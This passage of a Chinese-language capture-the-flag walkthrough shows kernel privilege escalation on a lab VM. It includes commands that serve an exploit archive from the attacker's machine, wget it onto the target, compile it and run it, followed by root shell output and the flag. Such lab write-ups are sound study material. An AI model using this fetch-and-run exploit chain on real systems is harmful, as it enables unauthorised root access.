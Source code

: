 ```css
```

这里一举获得了root权限，太可怕了！

## 本地提权

通过多个办法我们获得了一个用户，尝试提权一下：（这里以直接ssh连接为例）

### 内核提权

内核提权往往是我们最先开始考虑的，因为这可以几乎无视相关安全策略进行提权：

```shell
SHayslett@red:~$ uname -a
# Linux red.initech 4.4.0-21-generic #37-Ubuntu SMP Mon Apr 18 18:34:49 UTC 2016 i686 i686 i686 GNU/Linux
SHayslett@red:~$ lsb_release -a
No LSB modules are available.
Distributor ID: Ubuntu
Description:    Ubuntu 16.04 LTS
Release:        16.04
Codename:       xenial
```

#### linux内核提权

![image-20240202182718075](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402022200985.png)

找几个试试，都不行欸，这个`39772.txt`只是个描述文件，去镜像网站下载一下，本来不抱希望的，结果成功了：

![image-20240202191330323](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402022200986.png)

```shell
# Client
# 先下载到一个目录下，然后开启一个简易服务：
python3 -m http.server 8888

# Server 
wget http://192.168.244.133:8888/exploit.tar
tar -xvf exploit.tar
cd ebpf_mapfd_doubleput_exploit/
./compile.sh
# 这里有报错，但是一切正常
./doubleput 
```

然后等一分钟左右就获取到`root`权限了，查看一下`flag`！

```shell
oot@red:/tmp/ebpf_mapfd_doubleput_exploit# id                                                                    
uid=0(root) gid=0(root) groups=0(root),1005(SHayslett)                                                            
root@red:/tmp/ebpf_mapfd_doubleput_exploit# cd /root                                                              
root@red:/root# ls
fix-wordpress.sh  flag.txt  issue  python.sh  wordpress.sql
root@red:/root# cat flag.txt
~~~~~~~~~~<(Congratulations)>~~~~~~~~~~
                          .-'''''-.
                          |'-----'|
                          |-.....-|
                          |       |
                          |       |
         _,._             |       |
    __.o`   o`"-.         |       |
 .-O o `"-.o   O )_,._    |       |
```